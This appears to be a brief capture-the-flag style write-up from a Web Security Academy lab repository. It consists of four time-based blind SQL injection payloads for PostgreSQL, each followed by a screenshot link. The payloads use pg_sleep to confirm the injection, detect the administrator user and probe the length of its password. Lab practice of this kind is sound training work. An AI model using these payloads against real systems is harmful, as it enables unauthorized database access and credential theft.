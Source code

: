 `'||pg_sleep(5)--`
![grafik](https://github.com/alireza-cloud/Burp-Challenge-Web-Security-Academy/assets/62068604/aa01a99e-522a-4a3e-ac99-e4bed0ee5084)  
  
`'||CASE WHEN (1=1)THEN pg_sleep(2) ELSE '' END--`  
![grafik](https://github.com/alireza-cloud/Burp-Challenge-Web-Security-Academy/assets/62068604/af1278b4-80c4-4a2c-9b6b-d2fc9b8da89c)  
  
`';SELECT CASE WHEN (username='administrator') THEN pg_sleep(5) ELSE pg_sleep(0) END FROM users--`
![grafik](https://github.com/alireza-cloud/Burp-Challenge-Web-Security-Academy/assets/62068604/cde92bb8-2f19-4a6c-a125-7726f5114bac)  

`';SELECT CASE WHEN LENGTH(password)=20 THEN pg_sleep(5) ELSE pg_sleep(0) END FROM users WHERE username='administrator'--`
![grafik](https://github.com/alireza-cloud/Burp-Challenge-Web-Security-Academy/assets/62068604/d2b5fc02-d944-4747-a258-ae6a161fc2b5)




